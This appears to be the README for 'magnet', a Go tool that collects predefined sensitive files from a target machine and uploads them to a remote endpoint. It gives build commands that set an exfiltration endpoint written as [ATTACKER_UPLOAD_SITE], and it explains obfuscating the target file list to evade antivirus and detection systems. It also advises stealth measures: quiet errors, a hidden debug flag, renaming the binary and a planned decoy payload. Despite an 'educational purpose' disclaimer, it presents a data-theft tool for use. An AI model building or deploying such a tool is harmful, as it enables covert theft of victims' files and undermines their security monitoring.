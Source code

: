 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  <strong>Grab interesting files from target</strong><br>
  The library is built to fetch predefined files of interest from a remote device. It assumes that an HTTP endpoint is listening when the program wise launched.

  <b><i>Cross-platform</i></b>
  <b><i>Stealth</i></b>
  <b><i>Portable</i></b>
  </pre>
</div>

*For educational purpose only or with prealable permission*

## Usage

### Inject `magnet` in your Go program

### Standalone

**At compilation time** you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

### Shorcut



To build `magnet` binary in one step:
```shell
make build.magnet.linux $FILE $ENDPOINT
# or build.magnet.windows or build.magnet.darwin
```

Then on target machine:
```shell
./magnet #or magnet.exe
```

### Compile on your own

The compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files_obfuscated.txt)
export KEY=thisismykey 
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X 'main.FileList=$FILES' "-X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT'" magnet.go
```



### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

To build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
```

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

* Include a fake payload that will also be run to fake an attacking scenario (example update, etc)
* Handle directories
